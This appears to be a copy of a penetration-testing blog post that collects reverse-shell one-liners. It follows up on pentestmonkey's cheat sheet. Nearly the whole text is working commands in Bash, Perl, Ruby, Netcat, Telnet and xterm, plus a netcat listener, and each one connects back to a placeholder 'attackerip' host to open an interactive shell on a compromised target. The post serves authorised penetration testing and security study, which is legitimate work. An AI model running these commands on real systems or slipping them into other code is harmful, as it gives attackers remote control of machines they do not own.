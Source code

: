 https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html

Inspired by the great blog post by pentestmonkey.net, I put together the following extra methods and alternatives for some methods explained in the cheat sheet. There is nothing cutting edge, however you may find this handy during your penetration tests.

Citing pentestmonkey's blog post:

    If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell. 

    [...] your next step is likely to be either throwing back a reverse shell or binding a shell to a TCP port. 

    Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

First of all, on your machine, set up a listener, where attackerip is your IP address and 4444 is an arbitrary TCP port unfiltered by the target's firewall:

    attacker$ nc -l -v attackerip 4444


## Bash

Alternatives for Bash shell:

    exec /bin/bash 0&0 2>&0

Or:

    0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

Or:

    exec 5<>/dev/tcp/attackerip/4444
    cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
    while read line 0<&5; do $line 2>&5 >&5; done

See also Reverse Shell With Bash from GNUCITIZEN blog.

## Perl

Shorter Perl reverse shell that does not depend on /bin/sh:

    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

If the target system is running Windows use the following one-liner:

    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

## Ruby

Longer Ruby reverse shell that does not depend on /bin/sh:

    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

If the target system is running Windows use the following one-liner:

    ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

## Netcat

Others possible Netcat reverse shells, depending on the Netcat version and compilation flags:

    nc -c /bin/sh attackerip 4444

Or:

    /bin/sh | nc attackerip 4444

Or:

    rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p


See also 7 Linux Shells Using Built-in Tools from LaNMaSteR53 blog.

## Telnet

Of course, you can also use Telnet as an alternative for Netcat:

    rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

Or:

    telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp

## xterm

Follows further details on xterm reverse shell:

To catch incoming xterm, start an open X Server on your system (:1 - which listens on TCP port 6001). One way to do this is with Xnest:

    Xnest :1

Then remember to authorise on your system the target IP to connect to you:

    xterm -display 127.0.0.1:1  # Run this OUTSIDE the Xnest
    xhost +targetip             # Run this INSIDE the spawned xterm on the open X Server

Then on the target, assuming that xterm is installed, connect back to the open X Server on your system:

    xterm -display attackerip:1

Or:

    $ DISPLAY=attackerip:0 xterm

It will try to connect back to you, attackerip, on TCP port 6001.

Note that on Solaris xterm path is usually not within the PATH environment variable, you need to specify its filepath:

    /usr/openwin/bin/xterm -display attackerip:1

